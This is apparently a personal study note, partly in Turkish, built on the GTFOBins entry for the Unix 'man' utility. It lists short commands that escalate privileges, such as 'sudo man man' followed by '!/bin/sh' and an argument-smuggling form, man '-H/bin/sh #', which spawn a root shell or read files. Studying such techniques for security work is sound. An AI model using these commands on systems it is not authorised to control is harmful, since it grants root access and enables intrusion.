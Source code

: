 https://gtfobins.github.io/gtfobins/man/#shell
![[Pasted image 20240418114114.png]]
## Shell
```
man man
!/bin/sh
```
```
man '-H/bin/sh #' man
```
```
man file_to_read
```
```
sudo man man
!/bin/sh
```


---
![[Pasted image 20240418114805.png]]
### man utility nasıl çalışıyor hatırlayalım. herhangi bir tool'un man sayfası varsa örneğin "ls" komutunun    "man ls" şeklinde yazarsak bize bunun nasıl kullanıldığını ayrıntılı bir şekilde yazar. 
![[Pasted image 20240418114748.png]]

### Durum şudur ben sudo man ls komutunu çalıştırdığım zaman hedef sistem bana tabiki sudo yatkileriyle ls komutunun man sayfasını açacak ama man binary 'nin  bash session spawn'lama özelliği var ve bunu da man sayfası açılınca direk     !/bin/bash yazıp    çalıştırırsak bu man bize root yetkisiyle bash shell verecektir.

![[Pasted image 20240418115038.png]]
![[Pasted image 20240418115233.png]]